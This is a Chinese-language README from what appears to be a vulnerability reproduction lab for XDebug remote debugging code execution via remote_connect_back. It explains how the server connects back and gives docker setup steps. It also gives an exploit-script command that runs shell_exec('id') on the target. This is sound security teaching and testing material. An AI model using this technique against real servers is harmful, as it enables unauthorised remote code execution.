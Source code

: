 # XDebug 远程调试漏洞（代码执行）

XDebug是PHP的一个扩展，用于调试PHP代码。如果目标开启了远程调试模式，并设置`remote_connect_back = 1`：

```
xdebug.remote_connect_back = 1
xdebug.remote_enable = 1
```

这个配置下，我们访问`http://target/index.php?XDEBUG_SESSION_START=phpstorm`，目标服务器的XDebug将会连接访问者的IP（或`X-Forwarded-For`头指定的地址）并通过dbgp协议与其通信，我们通过dbgp中提供的eval方法即可在目标服务器上执行任意PHP代码。

更多说明可参考：

 - https://ricterz.me/posts/Xdebug%3A%20A%20Tiny%20Attack%20Surface
 - https://xdebug.org

## 测试环境

编译及启动测试环境

```
docker compose build
docker compose up -d
```

启动完成后，访问`http://your-ip:8080/`即可发现主页是一个简单的phpinfo，在其中可以找到xdebug的配置，可见开启了远程调试。

## 漏洞利用

因为需要使用dbgp协议与目标服务器通信，所以无法用http协议复现漏洞。

我编写了一个[漏洞复现脚本](exp.py)，指定目标web地址、待执行的php代码即可：

```
# 要求用python3并安装requests库
python3 exp.py -t http://127.0.0.1:8080/index.php -c 'shell_exec('id');'
```

![](1.png)

**重要说明：因为该通信是一个反向连接的过程，exp.py启动后其实是会监听本地的9000端口（可通过-l参数指定）并等待XDebug前来连接，所以执行该脚本的服务器必须有外网IP（或者与目标服务器处于同一内网）。**
